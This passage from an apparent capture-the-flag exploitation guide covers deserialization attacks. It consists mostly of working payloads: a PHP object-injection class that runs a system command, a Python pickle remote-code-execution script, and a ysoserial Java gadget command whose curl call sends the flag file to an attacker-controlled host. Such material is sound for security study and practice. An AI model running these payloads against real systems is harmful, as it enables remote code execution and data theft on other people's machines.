 
## 7. Deserialization {#7-deserialization}

### Step 7.1: PHP Object Injection
```php
// Find unserialize() calls in source code
unserialize($_COOKIE['data'])

// Create malicious object
<?php
class Evil {
    public $cmd = "system('cat /flag.txt');";
    function __destruct() {
        eval($this->cmd);
    }
}
echo serialize(new Evil());
?>
```

```bash
# Generate payload
php exploit.php

# Send serialized object
curl -b "data=O:4:\"Evil\":1:{s:3:\"cmd\";s:24:\"system('cat /flag.txt');";}" $TARGET
```

### Step 7.2: Python Pickle RCE
```python
# pickle_exploit.py
import pickle
import base64
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('cat /flag.txt',))

payload = base64.b64encode(pickle.dumps(Exploit()))
print(payload)
```

```bash
# Send payload
curl -X POST $TARGET/api -d "data=$(python3 pickle_exploit.py)"
```

### Step 7.3: Java Deserialization
```bash
# Use ysoserial
java -jar ysoserial.jar CommonsCollections6 'curl http://YOUR_IP:8000/$(cat /flag.txt)' | base64

# Send in cookie/parameter
curl -b "session=<base64-payload>" $TARGET
```

---